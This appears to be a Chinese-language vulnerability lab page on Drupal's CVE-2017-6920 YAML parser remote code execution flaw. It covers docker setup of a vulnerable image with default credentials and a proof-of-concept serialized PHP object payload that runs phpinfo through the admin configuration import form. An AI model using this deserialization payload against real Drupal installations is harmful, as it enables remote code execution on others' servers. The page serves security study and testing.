 ```yaml
---
layout: post
title: "Drupal PECL YAML parser 远程代码执行漏洞(CVE-2017-6920)"
date: 2017-06-29 23:57:35 +0800
image: '/assets/img/'
description: 'Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。'
main-class: 'hole'
color: '#B31917'
tags:
- Drupal
- RCE
categories:
- Drupal
twitter_text: 'Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。'
introduction: 'Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。'
---
```

<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>
### 漏洞信息

Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成。Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。

### 影响版本

Drupal < 8.3.4

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/user/login | admin | admin123

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:d_drupal_1
 ```

2. 启动环境
 ```bash
$ docker run -d -p 8000:80 medicean/vulapps:d_drupal_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 看到 Drupal 主界面代表启动成功


### POC

> 假如目标地址为： http://127.0.0.1:8000/

1.序列化一个`GuzzleHttp\Psr7\FnStream`类, 并给该序列化字符串加上yaml的`!php/object` tag(注意一定要转义):

```php
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

2.登录一个管理员账号，访问如下url: 

`http://127.0.0.1:8000/admin/config/development/configuration/single/import`

然后按下图所示填写表单：

![](https://github.com/Medicean/VulApps/raw/master/d/drupal/1/poc-1.png)

3.点击 `import` 后，触发：

![](https://github.com/Medicean/VulApps/raw/master/d/drupal/1/poc-2.png)

### Exp

> 待补充，欢迎分享

构造方法可参考：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](http://paper.seebug.org/334/)

### 相关链接

* [Drupal Core - Multiple Vulnerabilities - SA-CORE-2017-003](https://www.drupal.org/SA-CORE-2017-003)
* [CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](http://paper.seebug.org/334/)
